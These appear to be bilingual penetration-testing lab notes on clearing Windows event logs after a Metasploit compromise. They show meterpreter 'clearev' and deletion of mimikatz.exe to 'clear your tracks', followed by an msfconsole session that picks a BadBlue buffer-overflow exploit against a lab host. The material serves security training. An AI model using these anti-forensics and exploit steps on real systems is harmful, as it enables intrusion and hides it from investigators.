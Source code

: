 If there is an indicator of compromise, then the forensic investigator will disconnect this system from the Internet and then begin exploring the event logs.

Let's take a look at how we can clear all of this.

```
meterpreter > clearev
```

`Windows Logs->Security`

The latest one was 10:08. This will tell you The audit log was cleared.

That's not helpful for a forensic invertigator, because the user that did it was the Administrator.

`Windows Logs->System`

The Remote Registry service entered the stopped state. The system log file was cleared.

That is how to clear your tracks on a Windows system. 

Clearing you event logs is just one part of the process. The next thing you need to do is delete or wipe the exploit files or executables that you transferred over to the target system, which, in our case, we didn't do much apart from Mimikatz.

Remove a file.

```
meterpreter > rm mimikatz.exe
```

# Clearing Windows Event Logs（清除 Windows 事件日志）
## Overview
Goal

This lab covers the process of clearing Windows event logs with Metasploit.

## 概述
目标

本实验涵盖使用 Metasploit 清除 Windows 事件日志的过程。

# 复现视频内容
Target IP Address : 10.0.20.20

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > workspace -a Clearev
[*] Added workspace: Clearev
[*] Workspace: Clearev
msf5 > setg RHOSTS 10.0.20.20
RHOSTS => 10.0.20.20
msf5 > search badblue

Matching Modules
================

   #  Name                                       Disclosure Date  Rank   Check  Description
   -  ----                                       ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_ext_overflow  2003-04-20       great  Yes    BadBlue 2.5 EXT.dll Buffer Overflow
   1  exploit/windows/http/badblue_passthru      2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


msf5 > use exploit/windows/http/badblue_passthru
```